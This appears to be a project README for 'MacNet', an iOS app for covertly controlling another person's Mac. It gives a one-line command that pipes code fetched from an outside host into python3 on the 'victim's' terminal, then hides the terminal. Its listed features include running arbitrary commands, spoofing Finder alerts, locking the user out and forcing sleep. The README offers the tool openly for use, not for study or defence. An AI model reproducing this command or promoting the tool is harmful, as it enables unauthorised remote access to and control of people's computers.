 # MacNet Control Panel 

MacNet is a piece of software that allows you to remotely control someone else's Mac computer using an iOS control panel. To gain control of their computer, all you have to do is type the simple command `curl https://macnetback-nylr.c9users.io/getc | python3` into their terminal. The program will automatically hide the terminal, and you will have full access.


![App Logo](https://i.imgur.com/8G4LV6b.png)


# Core Features

- The dark screen at the top of the page allows you to tap any location and control the position of the mouse on the victim's computer 
- The OpenURL form allows you to open any URL on the victim's default browser 
- The create Alert form allows you to send an alert to the victim's computer (it will display from "Finder") 
- The execute form allows you to execute any command in the user's terminal 
- The volume slider allows you to change the volume on the user's computer 
- The "Disable" button allows you prevent the user from controlling their computer 
- The "Sleep" button forces the victim's computer to sleep


![Interface](https://i.imgur.com/fe7dKZw.png)



